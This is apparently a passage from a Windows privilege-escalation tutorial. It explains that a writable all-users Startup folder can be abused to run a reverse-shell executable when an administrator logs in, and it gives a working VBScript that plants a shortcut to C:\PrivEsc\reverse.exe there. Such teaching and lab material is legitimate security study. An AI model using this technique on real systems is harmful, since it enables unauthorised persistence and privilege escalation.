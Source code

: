 Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.

Windows also has a startup directory for apps that should start for all
users:

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp


If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.


Note that shortcut files (.lnk) must be used. 
The following VBScript can be used
to create a shortcut file:

```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

